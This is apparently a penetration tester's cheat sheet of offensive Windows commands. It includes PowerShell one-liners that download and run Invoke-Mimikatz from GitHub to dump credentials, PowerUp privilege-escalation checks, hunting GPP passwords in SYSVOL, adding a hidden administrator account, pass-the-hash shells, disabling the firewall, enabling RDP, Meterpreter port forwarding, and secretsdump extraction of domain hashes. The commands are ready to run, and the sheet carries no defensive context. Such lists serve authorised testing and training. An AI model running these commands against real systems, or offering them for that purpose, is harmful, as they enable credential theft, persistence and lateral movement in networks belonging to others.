 # Misc windows stuff

Powershell Oneliners

```sh
powershell.exe -exec bypass -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1');Invoke-Mimikatz -DumpCreds"
powershell.exe -exec bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
powershell.exe -exec Bypass -C “IEX (New-Object Net.WebClient).DownloadString(‘https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1’);Invoke-AllChecks”
```

Find GPP Passwords in SYSVOL

```sh
findstr /S cpassword "nv:logonserver\sysvol\*.xml
findstr /S cpassword %logonserver%\sysvol\*.xml (cmd.exe)"
```

Add admin user.

```sh
net user username password /add
net localgroup administrators username /add
net localgroup "Remote Desktop Users" username /add
```

```sh
winexe - U jenkins/administrator //xxx.xxx.xxx cmd.exe
pth-winexe -U jenkins/administrator //xxx.xxx.xxx.xxx cmd.exe
```

Enable Remote Desktop:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh firewall set service remotedesktop enable
```

Enable Remote assistance:

```sh
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh firewall set service remoteadmin enable
```

Disable firewall

```sh
netsh firewall set opmode disable
```

## List alternate data streams

```sh
dir /r
powershell (Get-Content hm.txt -Stream root.txt)
```

## msf meterpreter powershell

You can load powershell in meterpreter

```ssh
meterpreter> load powerhsell 
meterpreter> powershell_shell
```

##  msf meterpreter portfwd

You can port potforward in meterpreter.
This tunnel 445 to your host so you can use psexec for privesc.

```ssh
portfwd add -l 445 -p 445 -r 127.0.0.1
```

Dump secrets from hive

```sh
secretsdump.py -ntds ntds.dit -system SYSTEM LOCAL
```

Dump password remotly port 445 is required. 

```sh
 secretsdump.py 'username:password@xxx.xxx.xxx.xx'
```

Check available chares 

```sh
smbmap -u 'username' -p 'password' -d 'domain' -H xx.xx.xx.xx
```
